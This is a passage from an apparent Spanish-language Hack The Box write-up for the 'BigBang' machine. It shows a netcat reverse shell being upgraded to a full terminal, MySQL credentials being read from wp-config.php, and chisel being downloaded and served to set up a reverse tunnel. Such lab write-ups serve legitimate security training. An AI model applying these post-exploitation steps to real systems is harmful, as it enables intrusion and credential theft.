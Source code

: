 Para mejorar la interactividad de la reverse shell obtenida, convierto la consola en una pseudo terminal completa.

```terminal
www-data@8e3a72b5e980:/var/www/html/wordpress/wp-admin$ script /dev/null -c bash
www-data@8e3a72b5e980:/var/www/html/wordpress/wp-admin$ ^Z
/home/kali/Documents/htb/machines/bigbang:-$ stty raw -echo;fg
[1]  + continued  nc -lnvp 4321
                               reset xterm
www-data@8e3a72b5e980:/var/www/html/wordpress/wp-admin$ export TERM=xterm
www-data@8e3a72b5e980:/var/www/html/wordpress/wp-admin$ export SHELL=bash
www-data@8e3a72b5e980:/tmp$ stty rows 40 columns 133
```

A continuación, reviso el archivo de configuración de WordPress `wp-config.php`, donde encuentro las credenciales para una base de datos MySQL.

```terminal
www-data@8e3a72b5e980:/var/www/html/wordpress$ head -33 wp-config.php
```

![](assets/img/htb-writeup-bigbang/bigbang2_1.png)

Como MySQL no expone el puerto 3306 directamente a la red externa, utilizo un túnel reverso con chisel para acceder al servicio desde mi máquina atacante. Primero, descargo y levanto un servido en kali para transferir el binario de chisel.

```terminal
/home/kali/Documents/htb/machines/bigbang:-$ wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz
/home/kali/Documents/htb/machines/bigbang:-$ python3 -m http.server
```
